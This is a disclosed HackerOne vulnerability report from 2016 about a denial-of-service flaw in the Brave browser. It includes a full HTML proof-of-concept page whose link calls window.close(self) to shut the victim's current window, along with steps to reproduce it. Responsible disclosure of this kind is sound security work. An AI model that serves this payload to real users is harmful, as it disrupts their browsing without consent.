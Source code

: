 # Denial of service attack(window object) on brave browser

## Report Details
- **Report ID**: 176197
- **URL**: https://hackerone.com/reports/176197
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2016-10-16T21:31:08.926Z
- **Disclosed**: 2016-10-25T21:41:30.064Z

## Reporter
- **Username**: sahiltikoo
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: brave

## Vulnerability Information
## Summary:
hey there,

The Brave browser is vulnerable to window object based denial of
service attack. The brave browser fails to sanitize a check when window.close()
function is called in number of dynamically generated events.. The
function is called in a suppressed manner and kills the parent window
directly by default which makes it vulnerable to denial of service attack.

When an attacker sends an html file to victim :-

<html>
<title>Brave Window Object  Remote Denial of Service.</title>
<head></head>
 
<body><br><br>
<h1><center>Brave Window Object  Remote Denial of Service</center></h1><br><br>
<h2><center>Proof of Concept</center></br></br> </h2>
 
 
<center>
<b>Click the  below link to Trigger the Vulnerability..</b><br><br>
<hr></hr>
 
<hr></hr>
<b><center><a href="javascript:window.close(self);">Brave  Window Object  DoS Test POC</a></center>
 
</center>
</body>
 
 
</html>

Here window.close() method should be sanitized and should not close the current window.I tested it in Firefox and chrome(Linux platform) and this widow object is validated there and current window doesn't close.
 
This security issue is a result of design flaw in the browser.Scripts must not close windows that were not opened by script,if script specific code is designed.
There must be a parent window confirmation check prior to close of window.
 

## Products affected: 

Latest Brave browser in Linux(Kali Linux)

## Steps To Reproduce:

1 Open the HTML file in brave browser in your Linux platform
2 click on the link provided 
3 You will see the current window i.e. the window in which the HTML file was opened closes.

## Supporting Material/References:

I have added a video POC and the html file.


## Attachments
- Brave(window).html
- Brave_video.ogv
